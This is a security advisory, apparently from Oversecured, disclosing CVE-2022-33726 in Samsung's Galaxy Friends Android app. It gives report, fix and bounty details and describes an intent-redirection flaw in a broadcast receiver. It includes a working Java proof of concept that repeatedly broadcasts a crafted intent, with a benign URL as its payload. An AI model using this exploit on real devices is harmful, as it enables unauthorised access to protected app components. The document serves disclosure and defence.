

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Galaxy Friends</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.mateagent</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.26</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33726">CVE-2022-33726</a> (SVE-2022-0753)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$1600</td>
    </tr>
</table>

# Description

Oversecured discovered the following vulnerability:


A receiver was registered in the process of installing apps on a Samsung Watch, which received broadcasts from any third-party apps installed on the same device. After that, it passed the intent controlled by the attacker to `Context.startActivity()`.

**Proof of Concept**

```java
new Thread(() -> {
    Intent i = new Intent("com.samsung.android.app.watchmanagerstub.INSTALL_COMPLETE");
    i.putExtra("android.content.pm.extra.STATUS", -1);
    i.putExtra("android.intent.extra.INTENT", new Intent(Intent.ACTION_VIEW, Uri.parse("https://google.com/")));

    while (true) {
        sendBroadcast(i);
        try {
            Thread.sleep(100);
        } catch (Throwable th) {
            throw new RuntimeException(th);
        }
    }
}).start();
```

## References

- [Oversecured Blog. Android: Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Oversecured Blog. Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)
